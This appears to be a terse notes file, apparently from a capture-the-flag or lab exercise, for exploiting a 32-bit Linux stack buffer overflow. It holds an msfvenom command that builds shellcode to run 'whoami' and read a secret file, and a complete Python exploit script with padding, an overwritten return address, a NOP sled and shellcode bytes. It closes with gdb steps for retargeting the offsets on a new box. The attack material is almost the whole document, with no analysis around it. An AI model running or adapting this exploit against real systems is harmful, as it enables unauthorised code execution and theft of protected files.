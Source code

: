 # Venom One Liner

msfvenom -p linux/x86/exec CMD="whoami && cat /.secret/.verysecret.pdb" -b '\x00' -f python 


# Final Script
```
buffer = "A" * 76

eip = "\x51\x1b\xdf\xf7"

nop = '\x90' * 5

buf =  b""
buf += b"\xd9\xeb\xba\x16\xea\x0d\x98\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x13\x31\x56\x19\x03\x56\x19\x83\xc6"
buf += b"\x04\xf4\x1f\x67\x93\xa0\x46\x2a\xc5\x38\x54\xa8"
buf += b"\x80\x5f\xce\x01\xe0\xf7\x0f\x36\x29\x65\x79\xa8"
buf += b"\xbc\x8a\x2b\xdc\x98\x4c\xcc\x1c\x90\x24\xa3\x7d"
buf += b"\x33\xdd\x1b\x58\xed\x3d\x3f\xc5\x85\x1d\x90\x2b"
buf += b"\x15\x38\x8d\x41\xbc\xb6\x7e\x88\x48\x53\xf3\xad"
buf += b"\xc7\xfe\x90\x3f\x4d\x74\x79\xb0\xe9\x16\x85\x67"
buf += b"\xa1\x5f\x64\x4a\xc5"

print(buffer + eip + nop + buf)

```

# On New Box

Run gdb against script against and see output, modify as needed

e.g. 

## CMDs to Run

info proc map

find /b

***Use these new numbers on target box and insert them into "buffer" and "eip" variable***
